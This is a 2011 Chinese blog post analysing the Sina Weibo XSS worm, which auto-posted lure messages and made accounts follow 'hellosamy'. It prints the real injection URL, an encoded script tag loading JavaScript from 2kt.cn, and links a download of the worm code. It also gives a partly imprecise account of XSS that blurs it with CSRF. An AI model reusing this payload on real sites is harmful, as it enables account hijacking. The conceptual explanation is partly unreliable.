 # 新浪微博的XSS攻击
>date: 2011-06-28T23:10:18+08:00


今天晚上（2011年6月28日），新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等微博和私信，并自动关注一位名为hellosamy的用户。


事件的经过线索如下：


* 20:14，开始有大量带V的认证用户中招转发蠕虫
* 20:30，2kt.cn中的病毒页面无法访问
* 20:32，新浪微博中hellosamy用户无法访问
* 21:02，新浪漏洞修补完毕


 


![新浪微博XSS事件](https://coolshell.cn/wp-content/uploads/2011/06/sina_xss01.png "新浪微博XSS事件")新浪微博XSS事件
 


在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。



首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器上的程序通话。这就是XSS攻击的最基本思路。


再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态的协议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页切换中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿和共享使用你登录状态的。


当然，你不必过于担心访问别的网站，在别的网站里的js代码会自动访问你的微博或是网银。因为浏览器的安全性让js只能访问自己所在网站的资源（你可以引入其它网站的js）。当然，这是浏览器对js做的检查，所以，浏览器并不一定会做这个检查，这就是为什么[IE6是史上最不安全的浏览器](https://coolshell.cn/articles/3921.html "中国仍是IE6的重灾区")，没有之一。只要你没有在用IE6，应该没有这些问题。


XSS攻击有两种方法，


* 一种就像SQL Injection或CMD Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。


* 另一类则是来来自外部的攻击，主要指的自己构造XSS 跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如 社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax 要发起跨站调用是非常困难的（你可能需要hack浏览器）。


这次新浪微博事件是第一种，其利用了微博广场页面 http://weibo.com/pub/star 的一个URL注入了js脚本，其通过http://163.fm/PxZHoxn短链接服务，将链接指向：


http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update


注意，上面URL链接中的其实就是<script src=//www.2kt.cn/images/t.js></script>。


攻击者并不一定是2kt.cn的人，因为.cn被国家严格管制（大家不知道coolshell.cn 的备案备了不知有多少次），所以，我个人觉得这个人不会愚蠢到用自己域名来做攻击服务器。


#### 其它


* 初步发现 Chrome 和 Safari 都没中招。IE、Firefox未能幸免。
* 史上最著名的XSS攻击是Yahoo Mail 的[Yamanner](https://en.wikipedia.org/wiki/Yamanner) 蠕虫是一个著名的XSS 攻击实例。早期Yahoo Mail 系统可以执行到信件内的javascript 代码。并且Yahoo Mail 系统使用了Ajax技术，这样病毒javascript 可以的向Yahoo Mail 系统发起ajax 请求，从而得到用户的地址簿，并发送攻击代码给他人。
* 为什么那个用户叫hellosamy，因为[samy](https://en.wikipedia.org/wiki/Samy_(XSS))是第一个XSS攻击性的蠕虫病毒，在MySpace上传播。
* 关于攻击的代码在这里：[06.28\_sina\_XSS.txt](https://coolshell.cn/wp-content/uploads/2011/06/06.28_sina_XSS.txt.zip) （编码风格还是很不错的）


（全文完）



